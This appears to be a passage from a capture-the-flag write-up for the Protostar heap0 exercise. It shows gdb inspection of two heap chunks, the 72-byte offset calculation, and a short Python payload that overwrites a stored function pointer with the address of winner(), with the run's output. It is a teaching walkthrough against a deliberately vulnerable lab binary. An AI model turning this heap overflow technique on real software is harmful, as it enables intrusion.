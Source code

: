 From the heap layout above, we can observe two allocated chunks:
- The first chunk has a size of **0x48**, with user data starting at **0x804a008**.
- The second chunk has a size of **0x10**, with user data starting at **0x804a050**.

If we look closely at the second chunk, we can see that the address of `nowinner()` is stored on the heap. 

```shell
(gdb) x nowinner
0x8048478 <nowinner>:   0x83e58955
```

This means that if we create a payload that overwrites `nowinner()` with `winner()`, we can successfully exploit the vulnerability and complete this level!

Here is the address of **winner()**:

```shell
(gdb) x winner
0x8048464 <winner>:     0x83e58955
```

### Solution

Building upon our heap analysis, we can now create the appropriate payload to exploit the vulnerability.

From our inspection of the heap layout, we determined that the second chunk contains a function pointer that we need to overwrite. To do this, we first calculate the offset between the start of the first and second heap chunks' user data:

$$
0x804a050 - 0x804a008 = 72
$$

Thus, our padding must be **72 bytes long**. We also identified that the `winner()` function is located at **0x8048464**.

Now, we construct our exploit payload:

```python
import struct

padding = "A" * 72
winner = struct.pack("I", 0x8048464)

print padding + winner
```

Finally, executing the script gives us control over the function pointer:

```shell
user@protostar:~$ /opt/protostar/bin/heap0 $(python script.py)
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Heap 1
